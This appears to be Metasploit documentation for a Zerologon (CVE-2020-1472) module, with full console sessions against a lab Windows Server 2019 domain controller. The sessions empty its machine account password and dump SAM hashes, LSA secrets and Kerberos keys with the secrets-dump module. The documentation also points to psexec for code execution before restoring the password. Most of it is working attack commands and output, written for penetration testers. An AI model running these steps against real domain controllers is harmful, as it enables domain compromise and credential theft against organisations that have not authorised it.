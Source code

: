 ## Vulnerable Application
A vulnerability exists within the Netlogon authentication process where the security properties granted by AES are lost
due to an implementation flaw related to the use of a static initialization vector (IV). An attacker can leverage this
flaw to target an Active Directory Domain Controller and make repeated authentication attempts using NULL data fields
which will succeed every 1 in 256 tries (~0.4%). This module leverages the vulnerability to reset the machine account
password to an empty string, which will then allow the attacker to authenticate as the machine account. After
exploitation, it's important to restore this password to it's original value. Failure to do so can result in service
instability.

The `auxiliary/gather/windows_secrets_dump` module can be used to recover the original machine account password which
can then be restored with this module by using the `RESTORE` action and setting the `PASSWORD` value.

## Verification Steps

1. Exploit the vulnerability to remove the machine account password by replacing it with an empty string
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2020_1472_zerologon`
    1. Set the `RHOSTS` and `NBNAME` values
    1. Run the module and see that the original machine account password was removed
1. Recover the original machine account password
    1. Do: `use auxiliary/gather/windows_secrets_dump`
    1. Set the `RHOSTS` values
    1. Set the `SMBUser` option to the NetBIOS name with a trailing `$`, e.g. `NBNAME$`
    1. Set the `SMBPass` option to `aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0` (the hash of an empty password)
    1. Run the module and search for the password in the output (`NBNAME$:plain_password_hex:`)
1. Restore the original machine account password
    1. From msfconsole
    1. Do: `use auxiliary/admin/dcerpc/cve_2020_1472_zerologon`
    1. Set the action to `RESTORE`
    1. Set the `RHOSTS`, `NBNAME` and `PASSWORD` values
    1. Run the module and see that the original value was restored

## Options

### NBNAME

The NetBIOS name of the target domain controller. You can use the `auxiliary/scanner/netbios/nbname` module to obtain
this value. If this value is invalid the module will fail when making a Netlogon RPC request.

### PASSWORD

The hex value of the original machine account password. This value is typically recovered from the target system's
registry (such as by using the `auxiliary/gather/windows_secrets_dump` Metasploit module) after successfully setting the
value to an empty string within Active Directory using this module and the default `REMOVE` action.

This value is only used when running the module with the `RESTORE` action.

## Scenarios

### Windows Server 2019

First, exploit the vulnerability to remove the machine account password by replacing it with an empty string.

```
msf6 > use auxiliary/admin/dcerpc/cve_2020_1472_zerologon 
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set RHOSTS 192.168.159.53 
RHOSTS => 192.168.159.53
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set NBNAME WIN-GD5KVDKUNIP
NBNAME => WIN-GD5KVDKUNIP
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > show options 

Module options (auxiliary/admin/dcerpc/cve_2020_1472_zerologon):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   NBNAME  WIN-GD5KVDKUNIP  yes       The server's NetBIOS name
   RHOSTS  192.168.159.53   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                    no        The netlogon RPC port (TCP)


Auxiliary action:

   Name    Description
   ----    -----------
   REMOVE  Remove the machine account password


msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > run
[*] Running module against 192.168.159.53

[*] 192.168.159.53: - Connecting to the endpoint mapper service...
[*] 192.168.159.53:6403 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[*] 192.168.159.53:6403 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[+] 192.168.159.53:6403 - Successfully authenticated
[+] 192.168.159.53:6403 - Successfully set the machine account (WIN-GD5KVDKUNIP$) password to: aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 (empty)
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) >
```

At this point the `exploit/windows/smb/psexec` module can be used to achieve code execution if desired. Set the `SMBUser` option to the
machine account and the `SMBPass` option to the empty password value.

Next, recover the original machine account password value using `auxiliary/gather/windows_secrets_dump`. Look for the `plain_password_hex`
value in the `$MACHINE.ACC` section.

```
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > use auxiliary/gather/windows_secrets_dump 
msf6 auxiliary(gather/windows_secrets_dump) > set RHOSTS 192.168.159.53
RHOSTS => 192.168.159.53
msf6 auxiliary(gather/windows_secrets_dump) > set SMBUser WIN-GD5KVDKUNIP$
SMBUser => WIN-GD5KVDKUNIP$
msf6 auxiliary(gather/windows_secrets_dump) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
SMBPass => aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf6 auxiliary(gather/windows_secrets_dump) > run
[*] Running module against 192.168.159.53

[*] 192.168.159.53:445 - Service RemoteRegistry is already running
[*] 192.168.159.53:445 - Retrieving target system bootKey
[+] 192.168.159.53:445 - bootKey: 0xa11f7c33c8bab9e427dec59436dbb17d
[*] 192.168.159.53:445 - Saving remote SAM database
[*] 192.168.159.53:445 - Dumping SAM hashes
[*] 192.168.159.53:445 - Password hints:
No users with password hints on this system
[*] 192.168.159.53:445 - Password hashes (pwdump format - uid:rid:lmhash:nthash:::):
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6df12cddaa88057f06a80b5ee73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d17ae931b73c5ad7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d17ae931b73c5ad7e0c089c0:::
[*] 192.168.159.53:445 - Saving remote SECURITY database
[*] 192.168.159.53:445 - Decrypting LSA Key
[*] 192.168.159.53:445 - Dumping LSA Secrets
$MACHINE.ACC
EXCHG\WIN-GD5KVDKUNIP$:plain_password_hex:4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
EXCHG\WIN-GD5KVDKUNIP$:aes256-cts-hmac-sha1-96:127c328739d4406e6734684b971709acb2215f947b961355fa25b9b3fda38a08
EXCHG\WIN-GD5KVDKUNIP$:aes128-cts-hmac-sha1-96:becbe21ab050ccb1d8a5b908839fd95f
EXCHG\WIN-GD5KVDKUNIP$:des-cbc-md5:b5f843cec2e56220
EXCHG\WIN-GD5KVDKUNIP$:aad3b435b51404eeaad3b435b51404ee:ec3a7fa2158f1f705898d538ad3aafaf:::
...

[*] 192.168.159.53:445 - Decrypting NL$KM
[*] 192.168.159.53:445 - Dumping cached hashes
No cached hashes on this system
[*] 192.168.159.53:445 - Cleaning up...
[*] Auxiliary module execution completed
msf6 auxiliary(gather/windows_secrets_dump) >
```

Finally, restore the original value using this module.

```
msf6 auxiliary(gather/windows_secrets_dump) > use auxiliary/admin/dcerpc/cve_2020_1472_zerologon 
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set ACTION RESTORE 
ACTION => RESTORE
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > set PASSWORD 4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
PASSWORD => 4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > show options 

Module options (auxiliary/admin/dcerpc/cve_2020_1472_zerologon):

   Name      Current Setting                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   Required  Description
   ----      ---------------                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   --------  -----------
   NBNAME    WIN-GD5KVDKUNIP                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   yes       The server's NetBIOS name
   PASSWORD  4151e8f8490762bc47ec11855921aef606f9d37176aef0f43a3fc6dc4aefc4c0d7bb7b88ad635a11f94de37e0d82495bab1dec25ac9d547910f94332f4598de372c07635fba1f6592bd3bb5aeb827cb088b1cae8db872b59e267ccfef1df40580c8d918befb3c39d809a6c89767a466f88f40eb373f86cf20c9b6a07e89b596e14a44eae6a4ae55b92a481b71452a3bbab2d5735d70868b778541f3c6e4d1c8c097c086bc40d364c01d4520b8a86a217ac79b4e826b9dc2eedd0a834146e3f6fba7422960dbd4051f499be61eca4e1aeba786030acfdd21e9f5a98a35a3f0430cf0b536bff99163118a1c75ec852cc2d  no        The password to restore for the machine account (in hex)
   RHOSTS    192.168.159.53                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       no        The netlogon RPC port (TCP)


Auxiliary action:

   Name     Description
   ----     -----------
   RESTORE  Restore the machine account password


msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > run
[*] Running module against 192.168.159.53

[*] 192.168.159.53: - Connecting to the endpoint mapper service...
[*] 192.168.159.53:6403 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[*] 192.168.159.53:6403 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.159.53[6403] ...
[+] 192.168.159.53:6403 - Successfully set machine account (WIN-GD5KVDKUNIP$) password
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) >
```
